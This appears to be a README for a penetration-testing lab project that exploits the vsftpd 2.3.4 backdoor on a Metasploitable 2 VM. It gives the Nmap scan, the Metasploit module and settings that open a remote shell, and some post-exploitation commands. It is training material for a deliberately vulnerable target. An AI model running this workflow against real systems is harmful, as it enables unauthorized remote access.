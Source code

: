 # Vulnerability Assessment & Exploitation of FTP Service using Metasploit

 Project Overview
This project demonstrates how to discover and exploit a vulnerable FTP service on a target machine (Metasploitable 2) using the **Metasploit Framework**.  
The lab showcases a real-world pentesting workflow: scanning → vulnerability assessment → exploitation → post-exploitation.

 **Disclaimer**: Performed only in a safe lab environment. Do NOT attempt on unauthorized systems.

---

 Lab Environment
- **Attacker Machine**: Kali Linux (Metasploit Framework installed)  
- **Target Machine**: Metasploitable 2 (vulnerable VM)  
- **Service in Scope**: FTP (vsftpd 2.3.4)  

---

##  Step 1: Vulnerability Assessment
1. Scan FTP service with Nmap:
   ```bash
   nmap -sV -p 21 <TARGET_IP>

Step 2: Exploitation using Metasploit

Launch Metasploit:

msfconsole


Search & load exploit:

search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor


Set target:

set RHOST <TARGET_IP>


Run exploit:

exploit


✅ Result: Meterpreter session opened.

 Step 3: Post Exploitation

Check system info:

sysinfo

Get current user:

getuid

List files:

ls

Proof of concept: created /tmp/hacked.txt.

Results

Vulnerable FTP service identified and confirmed.

Exploited successfully with Metasploit → remote shell access gained.

Demonstrated complete pentesting cycle.
